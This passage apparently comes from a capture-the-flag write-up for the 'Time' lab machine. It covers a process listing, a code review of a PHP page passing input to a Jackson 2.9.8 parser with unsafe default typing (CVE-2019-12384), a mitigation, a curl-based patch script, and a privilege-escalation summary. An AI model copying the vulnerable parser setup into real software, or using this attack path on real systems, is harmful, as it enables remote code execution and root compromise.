root         146       2  0 May08 ?        00:00:00  \_ [kworker/u257:0]
root         159       2  0 May08 ?        00:00:00  \_ [charger_manager]
root         205       2  0 May08 ?        00:00:00  \_ [scsi_eh_2]
root         206       2  0 May08 ?        00:00:00  \_ [scsi_tmf_2]
root         207       2  0 May08 ?        00:00:00  \_ [scsi_eh_3]
root         208       2  0 May08 ?        00:00:11  \_ [irq/16-vmwgfx]
root         209       2  0 May08 ?        00:00:00  \_ [ttm_swap]
root         210       2  0 May08 ?        00:00:00  \_ [scsi_tmf_3]
root         211       2  0 May08 ?        00:00:00  \_ [scsi_eh_4]
root         212       2  0 May08 ?        00:00:00  \_ [scsi_tmf_4]
root         213       2  0 May08 ?        00:00:00  \_ [scsi_eh_5]
root         214       2  0 May08 ?        00:00:00  \_ [scsi_tmf_5]
root         215       2  0 May08 ?        00:00:00  \_ [scsi_eh_6]
root         216       2  0 May08 ?        00:00:00  \_ [mpt_poll_0]
root         217       2  0 May08 ?        00:00:00  \_ [scsi_tmf_6]
root         218       2  0 May08 ?        00:00:00  \_ [scsi_eh_7]
root         219       2  0 May08 ?        00:00:00  \_ [mpt/0]
root         220       2  0 May08 ?        00:00:00  \_ [scsi_tmf_7]
root         221       2  0 May08 ?        00:00:00  \_ [scsi_eh_8]
root         222       2  0 May08 ?        00:00:00  \_ [scsi_tmf_8]
root         223       2  0 May08 ?        00:00:00  \_ [scsi_eh_9]
root         224       2  0 May08 ?        00:00:00  \_ [scsi_tmf_9]
root         225       2  0 May08 ?        00:00:00  \_ [scsi_eh_10]
root         226       2  0 May08 ?        00:00:00  \_ [scsi_tmf_10]
root         227       2  0 May08 ?        00:00:00  \_ [scsi_eh_11]
root         228       2  0 May08 ?        00:00:00  \_ [scsi_tmf_11]
root         229       2  0 May08 ?        00:00:00  \_ [scsi_eh_12]
root         230       2  0 May08 ?        00:00:00  \_ [scsi_tmf_12]
root         231       2  0 May08 ?        00:00:00  \_ [scsi_eh_13]
root         232       2  0 May08 ?        00:00:00  \_ [scsi_tmf_13]
root         233       2  0 May08 ?        00:00:00  \_ [scsi_eh_14]
root         234       2  0 May08 ?        00:00:00  \_ [scsi_tmf_14]
root         235       2  0 May08 ?        00:00:00  \_ [scsi_eh_15]
root         236       2  0 May08 ?        00:00:00  \_ [scsi_tmf_15]
root         237       2  0 May08 ?        00:00:00  \_ [scsi_eh_16]
root         238       2  0 May08 ?        00:00:00  \_ [scsi_tmf_16]
root         239       2  0 May08 ?        00:00:00  \_ [scsi_eh_17]
root         240       2  0 May08 ?        00:00:00  \_ [scsi_tmf_17]
root         241       2  0 May08 ?        00:00:00  \_ [scsi_eh_18]
root         242       2  0 May08 ?        00:00:00  \_ [scsi_tmf_18]
root         243       2  0 May08 ?        00:00:00  \_ [scsi_eh_19]
root         244       2  0 May08 ?        00:00:00  \_ [scsi_tmf_19]
root         245       2  0 May08 ?        00:00:00  \_ [scsi_eh_20]
root         246       2  0 May08 ?        00:00:00  \_ [scsi_tmf_20]
root         247       2  0 May08 ?        00:00:00  \_ [scsi_eh_21]
root         248       2  0 May08 ?        00:00:00  \_ [scsi_tmf_21]
root         249       2  0 May08 ?        00:00:00  \_ [scsi_eh_22]
root         250       2  0 May08 ?        00:00:00  \_ [scsi_tmf_22]
root         251       2  0 May08 ?        00:00:00  \_ [scsi_eh_23]
root         252       2  0 May08 ?        00:00:00  \_ [scsi_tmf_23]
root         253       2  0 May08 ?        00:00:00  \_ [scsi_eh_24]
root         254       2  0 May08 ?        00:00:00  \_ [scsi_tmf_24]
root         255       2  0 May08 ?        00:00:00  \_ [scsi_eh_25]
root         256       2  0 May08 ?        00:00:00  \_ [scsi_tmf_25]
root         257       2  0 May08 ?        00:00:00  \_ [scsi_eh_26]
root         258       2  0 May08 ?        00:00:00  \_ [scsi_tmf_26]
root         259       2  0 May08 ?        00:00:00  \_ [scsi_eh_27]
root         260       2  0 May08 ?        00:00:00  \_ [scsi_tmf_27]
root         261       2  0 May08 ?        00:00:00  \_ [scsi_eh_28]
root         262       2  0 May08 ?        00:00:00  \_ [scsi_tmf_28]
root         263       2  0 May08 ?        00:00:00  \_ [scsi_eh_29]
root         264       2  0 May08 ?        00:00:00  \_ [scsi_tmf_29]
root         265       2  0 May08 ?        00:00:00  \_ [cryptd]
root         266       2  0 May08 ?        00:00:00  \_ [scsi_eh_30]
root         268       2  0 May08 ?        00:00:00  \_ [scsi_tmf_30]
root         276       2  0 May08 ?        00:00:00  \_ [scsi_eh_31]
root         277       2  0 May08 ?        00:00:00  \_ [scsi_tmf_31]
root         323       2  0 May08 ?        00:00:00  \_ [scsi_eh_32]
root         324       2  0 May08 ?        00:00:00  \_ [scsi_tmf_32]
root         325       2  0 May08 ?        00:00:01  \_ [kworker/1:1H-kblockd]
root         351       2  0 May08 ?        00:00:00  \_ [raid5wq]
root         391       2  0 May08 ?        00:00:03  \_ [jbd2/sda2-8]
root         392       2  0 May08 ?        00:00:00  \_ [ext4-rsv-conver]
root         393       2  0 May08 ?        00:00:02  \_ [kworker/0:1H-kblockd]
root         616       2  0 May08 ?        00:00:00  \_ [kaluad]
root         617       2  0 May08 ?        00:00:00  \_ [kmpath_rdacd]
root         618       2  0 May08 ?        00:00:00  \_ [kmpathd]
root         619       2  0 May08 ?        00:00:00  \_ [kmpath_handlerd]
root         631       2  0 May08 ?        00:00:00  \_ [loop0]
root         634       2  0 May08 ?        00:00:00  \_ [loop1]
root         635       2  0 May08 ?        00:00:00  \_ [loop2]
root         636       2  0 May08 ?        00:00:00  \_ [loop3]
root         637       2  0 May08 ?        00:00:00  \_ [loop4]
root         638       2  0 May08 ?        00:00:00  \_ [loop5]
root      245004       2  0 08:13 ?        00:00:01  \_ [kworker/1:0-events]
root      248006       2  0 08:31 ?        00:00:01  \_ [kworker/0:3-events]
root      249523       2  0 08:40 ?        00:00:00  \_ [kworker/1:2-events]
root      249575       2  0 08:40 ?        00:00:00  \_ [kworker/u256:1-events_unbound]
root      251480       2  0 08:52 ?        00:00:00  \_ [kworker/0:2-events]
root      251928       2  0 08:54 ?        00:00:00  \_ [kworker/u256:0-events_power_efficient]
root      252468       2  0 08:57 ?        00:00:00  \_ [kworker/0:0-events]
root      253260       2  0 09:01 ?        00:00:00  \_ [kworker/1:1-events]
root      253320       2  0 09:02 ?        00:00:00  \_ [kworker/0:1-events]
root           1       0  0 May08 ?        00:02:22 /sbin/init auto automatic-ubiquity noprompt
root         447       1  0 May08 ?        00:04:58 /lib/systemd/systemd-journald
root         474       1  0 May08 ?        00:02:14 /lib/systemd/systemd-udevd
systemd+     489       1  0 May08 ?        00:00:00 /lib/systemd/systemd-networkd
root         620       1  0 May08 ?        00:00:47 /sbin/multipathd -d -s
systemd+     654       1  0 May08 ?        00:00:09 /lib/systemd/systemd-resolved
systemd+     656       1  0 May08 ?        00:00:10 /lib/systemd/systemd-timesyncd
root         670       1  0 May08 ?        00:00:00 /usr/bin/VGAuthService
root         672       1  0 May08 ?        00:01:41 /usr/bin/vmtoolsd
root         772       1  0 May08 ?        00:00:14 /usr/lib/accountsservice/accounts-daemon
message+     773       1  0 May08 ?        00:00:24 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopid
root         796       1  0 May08 ?        00:00:04 /usr/sbin/irqbalance --foreground
root         798       1  0 May08 ?        00:00:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-trigg
syslog       803       1  0 May08 ?        00:02:01 /usr/sbin/rsyslogd -n -iNONE
root         806       1  0 May08 ?        00:04:22 /usr/lib/snapd/snapd
root         807       1  0 May08 ?        00:00:10 /lib/systemd/systemd-logind
root         859       1  0 May08 ?        00:00:00 /usr/sbin/cron -f
daemon       891       1  0 May08 ?        00:00:00 /usr/sbin/atd -f
root         899       1  0 May08 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root      251772     899  0 08:53 ?        00:00:00  \_ sshd: root@pts/0
root      251874  251772  0 08:53 pts/0    00:00:00      \_ -bash
root      254100  251874  0 09:06 pts/0    00:00:00          \_ ps -ef --forest
root         922       1  0 May08 tty1     00:00:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root         933       1  0 May08 ?        00:00:00 /usr/lib/policykit-1/polkitd --no-debug
root         944       1  0 May08 ?        00:00:05 /usr/sbin/apache2 -k start
pericles  162152     944  0 00:00 ?        00:00:00  \_ /usr/sbin/apache2 -k start
pericles  162153     944  0 00:00 ?        00:00:00  \_ /usr/sbin/apache2 -k start
pericles  162154     944  0 00:00 ?        00:00:00  \_ /usr/sbin/apache2 -k start
pericles  162155     944  0 00:00 ?        00:00:00  \_ /usr/sbin/apache2 -k start
pericles  162156     944  0 00:00 ?        00:00:00  \_ /usr/sbin/apache2 -k start
root      251775       1  0 08:53 ?        00:00:00 /lib/systemd/systemd --user
root      251776  251775  0 08:53 ?        00:00:00  \_ (sd-pam)
```


### File Systems

Apache config:

```
root@time:~# ls /etc/apache2/sites-enabled/
000-default.conf
root@time:~# cat /etc/apache2/sites-enabled/000-default.conf
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```


# 95 - Vulnerability analysis

## Code Review



`index.php`

```
root@time:/var/log# cat /var/www/html/index.php
<?php
if(isset($_POST['data'])){
        if(isset($_POST['mode']) && $_POST['mode'] === "2"){
                $filename = tempnam("/dev/shm", "payload");
                $myfile = fopen($filename, "w") or die("Unable to open file!");
                $txt = $_POST['data'];
                fwrite($myfile, $txt);
                fclose($myfile);
                // $filename controlled by user. 
                // Prerequisite #1
                exec("/usr/bin/jruby /opt/json_project/parse.rb $filename 2>&1", $cmdout, $ret);
                unlink($filename);
                if($ret === 0){
                        $output = '<pre>Validation successful!</pre>';
                }
                else{
                        $output = '<pre>Validation failed: ' . $cmdout[1] . '</pre>';
                }
        }
        else{
                $json_ugly = $_POST['data'];
                $json_pretty = json_encode(json_decode($json_ugly), JSON_PRETTY_PRINT);
                $output = '<pre>'.$json_pretty.'</pre>';
        }

}
?>
```

JSON Parser

```
root@time:/var/log# cat /opt/json_project/parse.rb
require 'java'

Dir["/opt/json_project/classpath/*.jar"].each do |f|
      require f
end

java_import 'com.fasterxml.jackson.databind.ObjectMapper'
java_import 'com.fasterxml.jackson.databind.SerializationFeature'
f = File.read(ARGV[0])
content = f
puts content

mapper = ObjectMapper.new
mapper.enableDefaultTyping()
mapper.configure(SerializationFeature::FAIL_ON_EMPTY_BEANS, false);
obj = mapper.readValue(content, java.lang.Object.java_class) # invokes all the setters
puts "stringified: " + mapper.writeValueAsString(obj)
```

Jackson version

```
root@time:/opt/json_project# grep -Ri version
Binary file classpath/h2-1.4.199.jar matches
Binary file classpath/jackson-databind-2.9.8.jar matches
Binary file classpath/logback-core-1.3.0-alpha5.jar matches
Binary file classpath/jackson-core-2.9.8.jar matches
root@time:/opt/json_project#
```


## Mitigation on JSON parser (root cause)

- Update Jackson > 2.9.8

```
require 'java'

Dir["/opt/json_project/classpath/*.jar"].each do |f|
      require f
end

java_import 'com.fasterxml.jackson.databind.ObjectMapper'
java_import 'com.fasterxml.jackson.databind.SerializationFeature'
java_import 'com.fasterxml.jackson.databind.MapperFeature' # ==> Mitigation v2.11 
f = File.read(ARGV[0])
content = f
puts content

mapper = ObjectMapper.new
mapper.activateDefaultTyping() # ==> Mitigation v2.10, enableDefaultTyping() to activateDefaultTyping() 
mapper.configure(MapperFeature::BLOCK_UNSAFE_POLYMORPHIC_BASE_TYPES); # ==> Mitigation v2.11 
mapper.configure(SerializationFeature::FAIL_ON_EMPTY_BEANS, false);
obj = mapper.readValue(content, java.lang.Object.java_class) # invokes all the setters
puts "stringified: " + mapper.writeValueAsString(obj)
```

Patch script (executed from Time), Jackson hosted from my Kali

- [Jackson 2.11](https://repo1.maven.org/maven2/com/fasterxml/jackson/core/jackson-core/2.11.0/)

```bash
#!/bin/bash
# ./time.sh patch [ip]
project_path="/opt/json_project/"
new_jackson="jackson-core-2.11.0.jar"
old_jackson="jackson-core-2.9.8.jar"

if [ "$1" == "patch" ]; then
	# backup the original code
	mkdir -p /dev/shm/orig/
	mv $project_path"classpath/"$old_jackson /dev/shm/orig/
	mv $project_path"parse.rb" /dev/shm/orig/
	
	# These file hosted from my machine
	curl -s "http://$2/$new_jackson" > /tmp/$new_jackson
	curl -s "http://$2/parse.rb" >  /tmp/parse.rb
	
	# move the updated parser and jackson
	cp /tmp/$new_jackson $project_path"classpath/"$new_jackson 
	cp /tmp/parse.rb "$project_path"
	chmod +x $project_path"parse.rb"
	
elif [ "$1" == "restore" ]; then
	rm $project_path"classpath/"$new_jackson
	rm $project_path"parse.rb"
	
	mv "/dev/shm/orig/$old_jackson" $project_path"classpath/"
	mv "/dev/shm/orig/parse.rb" $project_path
	
	rm /tmp/$new_jackson 
	rm /tmp/parse.rb
	rm -r /dev/shm/orig/
	
fi
```

Patched !

```text
Validation failed: WARNING: An illegal reflective access operation has occurred
```


# 90 - Summary

Foothold:

- Test inputs, note and find out the error message.
- Jackson CVE-2019-12384 exploitation

Privilege Escalation:

- Exploit user writable timer script. The script get executed by root every 10 secs

# References

References for exploitation:

- https://blog.doyensec.com/2019/07/22/jackson-gadgets.html
- https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

References for mitigation:

- https://snyk.io/vuln/SNYK-JAVA-COMFASTERXMLJACKSONCORE-450917
- https://cowtowncoder.medium.com/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062